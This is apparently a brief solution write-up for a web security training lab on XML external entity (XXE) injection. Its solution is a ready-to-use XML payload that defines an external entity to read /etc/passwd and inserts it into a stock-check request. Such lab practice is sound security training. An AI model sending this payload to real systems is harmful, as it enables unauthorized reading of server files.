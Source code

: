 # Lab: Exploiting XXE using external entities to retrieve files
## Description

## Solution
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```